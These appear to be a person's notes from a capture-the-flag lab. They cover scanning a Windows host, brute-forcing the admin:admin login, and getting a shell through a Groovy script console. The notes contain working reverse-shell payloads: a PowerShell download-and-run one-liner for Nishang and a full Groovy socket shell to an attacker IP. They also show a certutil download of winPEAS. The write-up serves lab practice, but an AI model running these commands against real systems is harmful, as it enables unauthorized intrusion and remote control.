 
```python
export TARGET_IP=10.10.169.220
export TARGET_MAC=
export TARGET_NETWORK=
```

Doesnt respond to pings
```python
sudo nmap -Pn -p- -v -A -T4 $TARGET_IP
```


```python
sudo nmap $TARGET_IP -sUV --top-ports 10
```


```python
http://10.10.169.220
```

![[Pasted image 20250127142719.png]]

```python
http://10.10.169.220:8080
```
![[Pasted image 20250127142749.png]]


Gobuster while i work
```python
gobuster dir -u http://10.10.169.220:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -v
```
`Nothing helpful`

**Using the provided command to gain a foothold**
`https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1`

put payload in pythonserver
```python
python3 -m http.server 8000
```

```python
powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.46.238:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.46.238 -Port 4444
```

```python
burpesuite
```

Used intruder with usernames and passwords that are common 

admin:admin
worked
logged in
went to Groovy script console
used but wait to hit run until listener is up

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
```python
String host="192.168.254.132";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


```python
nc -lvnp 4444
```

hit run on  groovy

now i have a shell   

on my kali with winpeas
```python
python3 -m http.server
```

cd to \Temp

pull down winPEAS from my python server
```powershell
certutil -urlcache -split -f "http://192.168.254.132:8000/winPEASx86.exe" winPEASx86.exe
```

run it
```python
.\winPEASx86.exe
```
